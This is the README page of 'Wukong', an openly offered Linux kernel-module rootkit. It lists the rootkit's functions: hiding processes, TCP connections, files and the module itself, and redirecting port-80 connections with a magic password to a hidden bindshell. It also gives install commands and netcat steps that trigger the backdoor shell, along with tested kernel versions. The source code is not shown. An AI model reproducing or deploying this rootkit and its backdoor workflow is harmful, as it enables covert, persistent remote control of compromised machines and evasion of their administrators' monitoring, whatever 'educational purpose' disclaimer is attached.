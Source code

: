 # Wukong: A LKM rootkit for Linux kernel 2.6.x, 3.x and 4.x<br />
<p>
	&nbsp;&nbsp;&nbsp;&nbsp;The idea of wukong is from a comercail Linux Backdoor software, designed for a hacking team in early 2015 for legal using. Now for educational perpose, I will release an open source version.
</p>
<p>
	<strong>&nbsp;&nbsp;&nbsp;&nbsp;Please call me good man:). If you want to buy me a bottle of beer, please contact me via hanj4096@gmail.com.</strong> 
</p>
<br />
<h2>
	<span style="color:#E53333;">Note:</span> 
</h2>
<span style="color:#E53333;"><strong>&nbsp;&nbsp;&nbsp;&nbsp;This kernel rootkit is just for educational purpose and it shouldn't be used for any illegal activities, use this at your own risk.</strong></span><br />
<br />
<br />
<br />
<h2>
	Function
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Hide Linux Process.<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Hide TCP connection.<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Hide File/Directory.<br />
&nbsp;&nbsp;&nbsp;&nbsp;4. Hide wukong.ko.<br />
&nbsp;&nbsp;&nbsp;&nbsp;5. Redirect TCP connection to backdoor server by using the specific confidential password.<br />
<br />
<h2>
	Usage
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;1. Environment:<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubunt-14.04 (1.1.1.33) --- (1.1.1.1)ubunt-14.04 &nbsp;<br />
&nbsp;&nbsp;&nbsp;&nbsp;(client)&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; (server)<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;2. Test step:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. on server<br />
&nbsp;&nbsp;&nbsp;&nbsp;cd wukong/<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo ./install.pl<br />
&nbsp;&nbsp;&nbsp;&nbsp;sudo nc -k -l 80<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. on client<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;http<br />
&nbsp;&nbsp;&nbsp;&nbsp;ifconfig<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS：The connection will be redirected to bindshell<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: a rst will be received.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;nc 1.1.1.1 80<br />
&nbsp;&nbsp;&nbsp;&nbsp;111111<br />
&nbsp;&nbsp;&nbsp;&nbsp;aaaaaa<br />
&nbsp;&nbsp;&nbsp;&nbsp;PS: The connection will be connected with tcp 80.<br />
<br />
&nbsp;&nbsp;&nbsp;&nbsp;3. Result:<br />
&nbsp;&nbsp;&nbsp;&nbsp;a. Bindshell file is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;b. Tcp 8000 connection is hidden.<br />
&nbsp;&nbsp;&nbsp;&nbsp;c. Bindshell process is hidden<br />
&nbsp;&nbsp;&nbsp; d. wukong.ko is hidden<br />
&nbsp;&nbsp;&nbsp;&nbsp;e. If "http" is the first four bytes to TCP 80, connection will be established with bindshell.<br />
<br />
<br />
<h2>
	Tested OS:
</h2>
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-i386-bin-DVD.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 2.6.18-408.el5 #1 SMP Tue Jan 19 09:13:33 EST 2016 i686 i686 i386 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;CentOS-5.5-x86_64-bin-DVD<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux 2.6.18-194.el5 #1 SMP Fri Apr 2 14:58:14 EDT 2010 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.2-desktop-amd64.iso&nbsp; &nbsp;<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:43:14 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-i386.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux<br />
&nbsp;&nbsp;&nbsp;&nbsp;ubuntu-14.04.3-desktop-amd64.iso<br />
&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;Linux&nbsp; 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux<br />
<br />
<br />
<h2>
	ToDo:
</h2>
&nbsp;&nbsp;&nbsp; Do performance tuning, make it can work on Linux server with large traffic.<br />
&nbsp;&nbsp;&nbsp; Adding more features.
